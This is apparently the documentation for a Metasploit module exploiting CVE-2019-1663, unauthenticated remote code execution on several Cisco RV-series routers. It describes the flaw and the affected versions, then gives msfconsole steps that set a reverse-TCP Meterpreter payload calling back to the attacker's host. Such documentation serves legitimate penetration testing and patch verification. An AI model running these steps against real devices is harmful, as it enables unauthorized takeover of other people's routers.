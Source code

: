 # Cisco RV110W/RV130W/RV215W Routers Management Interface Remote Command Execution

A vulnerability in the web-based management interface of the Cisco RV110W Wireless-N VPN Firewall, Cisco RV130W Wireless-N Multifunction VPN Router, and Cisco RV215W Wireless-N VPN Router could allow an unauthenticated, remote attacker to execute arbitrary code on an affected device.

The vulnerability is due to improper validation of user-supplied data in the web-based management interface. An attacker could exploit this vulnerability by sending malicious HTTP requests to a targeted device.

A successful exploit could allow the attacker to execute arbitrary code on the underlying operating system of the affected device as a high-privilege user.

## Vulnerable Device

* RV110W Wireless-N VPN Firewall versions prior to 1.2.2.1 are affected.
* RV130 Multifunction VPN Router versions prior to 1.0.3.45 are affected.
* RV130W Wireless-N Multifunction VPN Router versions prior to 1.0.3.45 are affected.
* RV215W Wireless-N VPN Router versions prior to 1.3.1.1 are affected.

## Verification Steps

1. Start msfconsole
2. ```use exploit/linux/http/cve_2019_1663_cisco_rmi_rce```
3. ```set rhost [IP]```
4. ```set payload linux/armle/meterpreter_reverse_tcp```
5. ```set lhost [IP]```
6. ```exploit```
7. You should get a session

